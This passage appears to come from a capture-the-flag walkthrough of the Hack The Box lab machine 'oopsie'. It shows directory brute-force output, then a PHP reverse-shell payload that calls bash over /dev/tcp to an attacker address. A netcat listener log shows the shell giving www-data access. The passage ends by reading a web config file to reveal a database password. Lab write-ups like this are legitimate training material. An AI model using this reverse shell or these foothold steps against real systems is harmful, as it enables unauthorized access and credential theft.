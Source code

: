 ```
/css                  (Status: 301) [Size: 312] [--> http://10.129.95.191/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.95.191/js/]
Progress: 2150 / 175330 (1.23%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 2160 / 175330 (1.23%)
===============================================================
Finished
===============================================================
```

There appears to be an `uploads` folder sitting behind some authentication. This auth may explain the 404 behaviour from earlier. In any case, when trying to access the file such as `/uploads/nmap.txt`, the server may still try to read or invoke the file. As such, let's try upload a PHP reverse shell in the hopes it gets executed.

```php
<?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP/1337> 0>&1'");
?>
```

We set up a netcat listener on our machine, and try to request the file from the web server. After trying with my basic payload, it hasn't worked. This is quite possibly due to PHP configuration settings that limit the use of functions like `exec()`. TODO: Confirm this is the case by uploading different payloads (e.g. GET request to attacking machine web server). Anyway, I went back to the drawing board and decided to use something someone smarter than me wrote - something that comes with Kali by default: `/usr/share/webshells/php/php-reverse-shell.php` and... success!

```
kali$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.15.212] from (UNKNOWN) [10.129.95.191] 47768
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:41:34 up 9 min,  0 users,  load average: 0.00, 0.04, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We have a foothold!


**Task 6**  
What is the file that contains the password that is shared with the robert user?  

The web server directory appears to be at `/var/www/html`. Doing some digging, we find the password at:

```
$ cat /var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
